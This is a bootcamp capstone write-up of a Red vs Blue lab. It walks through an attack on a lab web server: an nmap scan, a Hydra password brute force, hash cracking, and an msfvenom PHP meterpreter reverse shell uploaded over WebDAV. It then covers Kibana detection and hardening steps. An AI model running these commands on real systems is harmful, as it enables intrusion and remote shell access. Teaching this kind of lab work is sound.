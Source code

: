 ##### Note: The report of this project is attached ['Project Slide'](https://github.com/Omolabake94/CyberSecurity_Bootcamp/blob/main/PROJECTS/Red%20vs%20Blue%20Project/Red%20Vs%20Blue%20Project.pdf) in pdf format
# Red Vs. Blue Team Project Summary
## Capstone Engagement, Assessment, Analysis, and Hardening of a Vulnerable System
## Red Team: The Attack
### Step 1: Discover the IP address of the Linux server
Run `nmap 192.168.1.0/24`
* From the Nmap scan we can see that port 80 and port 22 is open
- ![alt_text](RedvsBlueSC/image25.png)
* In the web browser, searched IP 192.168.1.105
* Information that helped with finding the secret folder is in the screenshot
* ![alt_text](RedvsBlueSC/image30.png)
### Step 2: Locate the hidden directory on the server.
- Navigated to the secret folder directory by typing: 192.168.1.105/company_folders/secret_folder into the search bar
- The directory asks for authentication in order to access it.The user with access to this folder is Ashton 
### Step 3: Brute force the password for the hidden directory.
- The folder is password protected and we used Hydra to brute force into the directory. We ran Hydra against Ashton's user name and wordlist
- Command: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
- ![alt_text](RedvsBlueSC/image29.png)
- The username is ashton and the password is leopoldo
- We accessed the Secret folder and we got the information below
- ![alt_text](RedvsBlueSC/image33.png)
- ![alt_text](RedvsBlueSC/image34.png)
- Inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
- ![alt_text](RedvsBlueSC/image3.png)
### Step 4: Connect to the server via Webdav
- We simply used and online tool called Crack Station to break the password hash. https://crackstation.net
- - ![alt_text](RedvsBlueSC/image6.png)
- The password is revealed as: linux4u
### Step 5: Connect to the server via WebDAV
- Following the direction in the secret folder
- Open the File System
- Click Browse Network
- Type: dav://192.168.1.105/webdav into the url bar
- Enter Ryan's credentials to log in
### Step 6: Upload a PHP reverse shell payload
- Command to create the reverse shell in my Kali machine
- Commad: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`
- Copy the reverse shell from Kali into the WebdDAV directory
- ![alt_text](RedvsBlueSC/image5.png)
- connect to the webdav folder by navigating to 192.168.1.105/webdav and use ryan's username and password `username:ryan password:linux4u`
- click on the shell.php file to activate it.
- ![alt_text](RedvsBlueSC/image4.png)
- To set up listener
- Run `msfconsole`
- Run `use exploit/multi/handler`
- Run `set payload php/meterpreter/reverse_tcp`
- Run `show options and point out they need to set the LHOST`
- Run `set LHOST 192.168.1.90`
- Run `exploit`
- ![alt_text](RedvsBlueSC/image2.png)
### Step 7: Find and capture the flag
- Run `shell` to drop into bash shell
- Command to find the flag: `find . -iname flag.txt`
- ![alt_text](RedvsBlueSC/image1.png)
## Blue Team
## Incident Analysis with Kibana
### Final dashboard
- ![alt_text](RedvsBlueSC/image10.png)
- ![alt_text](RedvsBlueSC/image11.png)
### 1. Identify the Offensive Traffic
- Run `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105` in which the source IP is my Kali machine and the destination machine is the victim web server
- Run `url.path: /company_folders/secret_folder/`
- The attack occurred in the last 7 days
- ![alt_text](RedvsBlueSC/image13-1.png)
- We can see 401, 301, 207 and 200 as the top responses
- We can also see with the HTTP Error Codes [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image14.png)
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image15.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image16.png)
- ALERT: Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to DoS conditions, as well as provide a hook against which to trigger alerts against suspiciously suspiciously fast series of requests that may be indicative of scanning.
### 2. Find the Request for the Hidden Directory
- Looking at the Top 10 HTTP requests [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image17.png)
- we can see that the hidden directory (secret folder) folder was requested 16,075 times
- ![alt_text](RedvsBlueSC/image19.png)
- We can see in the same panel that the file connect_to_corp_server was requested 2 times
- ALERT: We could set an alert that goes off for any machine that attempts to access this directory or file.
- Mitigation: The secret_folder directory should be protected with stronger authentication. E.g., it could be moved to a server to which only key-based SSH access from whitelisted IPs is enabled
- The data inside of secret_folder should be encrypted at rest
### 3. Identify the Brute Force Attack
- identifying packets specifically from Hydra
- Using the search function search url.path: /company_folders/secret_folder/. This will show a few conversations involving this folder.
- ![alt_text](RedvsBlueSC/image18.png)
- Looking through the results and we notice that Hydra is identified under the user_agent.original section
- In the Top 10 HTTP requests [Packetbeat] ECS panel, we can see that the password protected secret_folder was requested 16,075 times, but the file inside that directory was only requested 2 times. So, out of 16,075 requests, only 2 were successful
- Take a look at the HTTP status codes for the top queries [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image20.png)
- We can see on this panel the breakdown of 401 Unauthorized status codes as opposed to 200 OK status codes.
- We can also see the spike in both traffic to the server and error codes.
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image21.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image22.png)
- These are all results generated by the brute force attack with Hydra.
- ALERT: We could set an alert if 401 Unauthorized is returned from any server over a certain threshold that would weed out forgotten passwords. Start with 10 in one hour and refine from there
- We could also create an alert if the user_agent.original value includes Hydra in the name
- Create an alert that triggers after 3 lock outs by each user
- Mitigation: After the limit of 10 401 Unauthorized codes have been returned from a server, that server can automatically drop traffic from the offending IP address for a period of 1 hour. We could also display a lockout message and lock the page from login for a temporary period of time from that user.
- The fail2ban utility can be enabled to protect against brute force attacks
### 4. Find the WebDav Connection
- We can again see in the Top 10 HTTP requests [Packetbeat] ECS panel that the webdav folder was directly connected and files inside were accessed.
- ![alt_text](RedvsBlueSC/image23.png)
- We can see the passwd.dav file was requested as well as a file named shell.php
- ALERT: We can create an alert anytime this directory is accessed by a machine other than the machine that should have access
- Mitigation: Connections to this shared folder should not be accessible from the web interface.
- Connections to this shared folder could be restricted by machine with a firewall rule
### 5. Identify the Reverse Shell and meterpreter Traffic
- We can see the shell.php file in the webdav directory on the Top 10 HTTP requests [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image23.png)
- Remember that your meterpreter session ran over port 4444. Port 4444 is the default port used for meterpreter and the port used in all of their documentation. Because of this, many attackers forget to change this port when conducting an attack. You can construct a search query to find these packets.
- Query: `source.ip: 192.168.1.105 and destination.port: 4444`
- ALERT: We can set an alert for any traffic moving over port 4444.
- We can set an alert for any .php file that is uploaded to a server 
- Mitigation: File uploads should require authentication
- Removing the ability to upload files to this directory over the web interface would take care of this issue.
